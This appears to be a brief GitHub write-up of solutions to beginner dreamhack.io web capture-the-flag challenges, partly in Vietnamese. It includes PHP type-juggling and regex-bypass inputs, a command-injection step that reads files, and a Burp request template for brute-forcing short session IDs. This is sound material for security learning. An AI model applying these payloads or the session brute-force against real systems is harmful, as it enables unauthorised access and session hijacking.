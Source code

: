 # dreamhack.io
## Beginner
### php7cmp4re
```
input1=7.:&input2=7:
```
### phpreg
```
step1: input1=dnyanyangng0310&input2=1@43319!+1+13 
step2: cat /../dream/*
```
### ex-reg-ex
```
import re
i = "drabcdde123am@xyz.com"
m = re.match(r'dr\w{5,7}e\d+am@[a-z]{3,7}\.\w+', i)
print(m)
```
### Flying Chars
- Read src for win
### simple-web-request
- Read src and request for win

![image](https://github.com/user-attachments/assets/07441982-8730-4cdc-9491-e224b34fb5e9)

![image](https://github.com/user-attachments/assets/e46ec44a-fb38-41af-b5e5-b6834625743e)

### devtools-sources
- Dont need devtools i need a penguin
```grep -r "DH{" *```
### session

- Ở đây server phân biệt người dùng này với người dùng khác qua session_id. 
- Tuy nhiên độ dài của nó khá ngắn nên chúng ta có thể bf ra được.

![image](https://github.com/user-attachments/assets/4ed8bf4a-4263-49e8-ae56-b7653d5f75f7)

- Mình sẽ dùng brup để bf:

```
GET / HTTP/1.1
Host: host3.dreamhack.games:10491
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US
Referer: http://host3.dreamhack.games:10491/login
Accept-Encoding: gzip, deflate, br
Cookie: sessionid=§i§
Connection: keep-alive
```

![image](https://github.com/user-attachments/assets/f65d445a-37a8-4552-bcba-6c885ca35c5b)

![image](https://github.com/user-attachments/assets/b7f2f260-2c44-427b-8f80-e6d8a63472f4)

```
